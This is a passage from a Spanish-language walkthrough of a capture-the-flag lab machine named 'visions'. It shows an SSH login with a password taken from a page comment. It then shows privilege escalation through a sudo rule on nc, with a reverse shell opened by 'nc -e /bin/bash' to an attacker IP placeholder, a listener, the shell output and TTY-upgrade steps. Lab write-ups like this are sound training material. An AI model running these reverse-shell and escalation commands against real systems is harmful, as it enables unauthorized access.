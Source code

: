 Vemos una seccion bastante interesante que es la del `Comment` veremos lo que parece ser una `password`, por lo que vamos a probarla como el usuario `alicia` mediante `SSH`.

### SSH

```shell
ssh alicia@<IP>
```

Metemos como contraseña `ihaveadream` y veremos que estamos dentro.

## Escalate user emma

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for alicia on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User alicia may run the following commands on visions:
    (emma) NOPASSWD: /usr/bin/nc
```

Veremos que podemos ejecutar el binario `nc` como el usuario `emma` por lo que haremos lo siguiente:

```shell
RHOST=<IP_ATTACKER>
RPORT=<PORT>
sudo -u emma nc -e /bin/bash $RHOST $RPORT
```

Antes de enviar el comando nos pondremos a la escucha:

```shell
nc -lvnp <IP>
```

Ahora si enviaremos el comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.14] 45974
whoami
emma
```

Veremos que ha funcionado, por lo que vamos a `sanitizar` la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

